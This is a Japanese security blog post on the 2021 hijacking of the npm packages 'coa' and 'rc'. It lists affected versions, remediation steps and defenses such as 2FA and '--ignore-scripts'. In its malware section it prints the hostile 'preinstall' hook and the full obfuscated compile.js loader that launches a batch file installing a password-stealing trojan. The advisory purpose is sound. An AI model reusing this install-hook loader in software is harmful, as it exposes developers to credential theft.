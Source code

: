 ```yaml
---
id: 4h4ejctfMpzeQYcn4uhrR0
title: " npm の人気パッケージ 「coa」と「rc」にマルウェアが埋め込まれた"
slug: "npm-coa-rc-embded-malware"
about: "2021/11/5 npm パッケージ 「coa」と「rc」がハイジャックされ、パスワードを盗むマルウェアが埋め込まれました。現在の時点では問題のあったバージョンはすべて取り除かれています。"
createdAt: "2021-11-07T00:00+09:00"
updatedAt: "2021-11-07T00:00+09:00"
tags: ["JavaScript", "セキュリティ"]
thumbnail:
  url: "https://images.ctfassets.net/in6v9lxmm5c8/5aBvLSXirDOkziSXDURioE/e547110fe258417a05556347c142e813/npm.png"
  title: "npm"
published: true
---
```

2021/11/5 npm パッケージ「coa」と「rc」がハイジャックされ、パスワードを盗むマルウェアが埋め込まれました。現在の時点では問題のあったバージョンはすべて取り除かれています。

- [coa](https://github.com/veged/coa/issues/99) はコマンドライン引数のパーサーで、週に 880 万ダウンロードされています。有名なライブラリですと [React](https://github.com/facebook/react/blob/main/yarn.lock#L4748) がや [@vue/cli-service](https://github.com/vuejs/vue-cli/blob/dev/yarn.lock#L7286) がこのパッケージに依存しています。
- [rc](https://github.com/veged/coa/issues/99) は設定のローダーで、週に 130 万ダウンロードされています。

## 影響を受けたバージョン

### coa

- 2.0.3
- 2.0.4
- 2.1.1
- 2.1.3
- 3.0.1
- 3.1.3

### rc

- 1.2.9
- 1.3.9
- 2.3.9

## なにをすべきですか？

npm を利用しているレポジトリにおいて「coa」または「rc」の上記に該当するバージョンが存在するか `package.lock.json` または `yarn.lock` ファイルを確認します。

もしこれらのバージョンが含まれていた場合あなたのマシンに以下のファイルが含まれていないかどうか確認し、削除する必要があります。またあなたのパスワードの情報はすでに盗まれている可能性があるので速やかに変更をすべきです。

- compile.js
- compile.bat
- sdd.dll

## マルウェアの内容

埋め込まれたマルウェアは「coa」と「rc」どちらも同じ内容で、どちらも `preinstall` を利用した攻撃となっています。

`preinstall` は `npm-script` に定義できる [Life Cycle Scripts](https://docs.npmjs.com/cli/v7/using-npm/scripts#life-cycle-scripts) と呼ばれる特殊なスクリプトであり `npm install` が実行される直前に実行されます。

```js
"preinstall": "start /B node compile.js & node compile.js"
```

影響を受けたバージョンには `compile.js` と `compile.bat` という名前のファイルが含まれており `npm install` を実行することで `compile.js` が実行されてしまいます。

- compile.js

```js
const _0x29286e=_0x3b9e;(function(_0x595213,_0x1c7f12){const _0x524030=_0x3b9e,_0x10bbc4=_0x595213();while(!![]){try{const _0x5ab451=parseInt(_0x524030(0xef))/0x1*(-parseInt(_0x524030(0xfa))/0x2)+parseInt(_0x524030(0xf7))/0x3+-parseInt(_0x524030(0xf6))/0x4*(parseInt(_0x524030(0xf5))/0x5)+-parseInt(_0x524030(0xf2))/0x6*(-parseInt(_0x524030(0xed))/0x7)+-parseInt(_0x524030(0xf8))/0x8*(parseInt(_0x524030(0xe9))/0x9)+parseInt(_0x524030(0xeb))/0xa+parseInt(_0x524030(0xf3))/0xb*(parseInt(_0x524030(0xf4))/0xc);if(_0x5ab451===_0x1c7f12)break;else _0x10bbc4['push'](_0x10bbc4['shift']());}catch(_0x3b1efb){_0x10bbc4['push'](_0x10bbc4['shift']());}}}(_0x4f67,0x3d733));const {exec}=require('child_process');function _0x4f67(){const _0x5d7817=['28bejTPQ','1355673ZDaxId','779896MgsJdu','child_process','26358GzOkXk','MacOS','platform','cmd.exe','win64','27EVEPMY','win32','768760SJubeg','Linux','111587KPhwpG','compile.bat','11xGbwXc','linux','darwin','36HiOlse','11PTXHjR','3696096qOooYF','173780mPHnxy'];_0x4f67=function(){return _0x5d7817;};return _0x4f67();}var opsys=process[_0x29286e(0xfc)];function _0x3b9e(_0x21f5ee,_0x411966){const _0x4f6708=_0x4f67();return _0x3b9e=function(_0x3b9ecb,_0x3ac81f){_0x3b9ecb=_0x3b9ecb-0xe9;let _0x5a6794=_0x4f6708[_0x3b9ecb];return _0x5a6794;},_0x3b9e(_0x21f5ee,_0x411966);}if(opsys==_0x29286e(0xf1))opsys=_0x29286e(0xfb);else{if(opsys==_0x29286e(0xea)||opsys==_0x29286e(0xfe)){opsys='Windows';const {spawn}=require(_0x29286e(0xf9)),bat=spawn(_0x29286e(0xfd),['/c',_0x29286e(0xee)]);}else opsys==_0x29286e(0xf0)&&(opsys=_0x29286e(0xec));}
```

`compile.js` が実行されることで `compile.bat` というバッチファイルが実行されます。このバッチが実行されると `sdd.dll` がインストールされ起動されます。このマルウェアは、Windows 用のパスワード盗用トロイの木馬である Danabot である可能性が高いです。

Danabot が読み込まれると、以下のようなさまざまな悪意ある活動を行います。

- Chrome、Firefox、Opera、Internet Explorer、Safari などのさまざまなウェブブラウザからパスワードを盗む。
- VNC、FTP クライアント、メールアカウントなど、さまざまなアプリケーションからパスワードを盗む。
保存されているクレジットカードを盗む。
- アクティブな画面のスクリーンショットを撮る。
- キーストロークを記録する。

## npm のセキュリティに対する対策

### 2FA の有効化

マルウェアが埋め込まれた現在として npm のパッケージを公開する権限がある人のアカウントが乗っ取られたことが要因として上げられています。npm としては同様の攻撃を防ぐため**2FAを有効にする**ことが強く推奨されています。

https://twitter.com/npmjs/status/1456310653681999876

### pre-install を無効化する

マルウェアの実行の多くは `pre-install` スクリプトによって行われています。パッケージをインストールする際に `--ignore-scripts` オプションを付与することでスクリプトの実行をオプトアウトできます。

```
npm install --ignore-scripts
yarn add --ignore-scripts
```

## 参考

- https://therecord.media/malware-found-in-coa-and-rc-two-npm-packages-with-23m-weekly-downloads/
- https://www.bleepingcomputer.com/news/security/popular-coa-npm-library-hijacked-to-steal-user-passwords/
- https://github.com/advisories/GHSA-g2q5-5433-rhrf
- https://github.com/advisories/GHSA-73qr-pfmq-6rp8
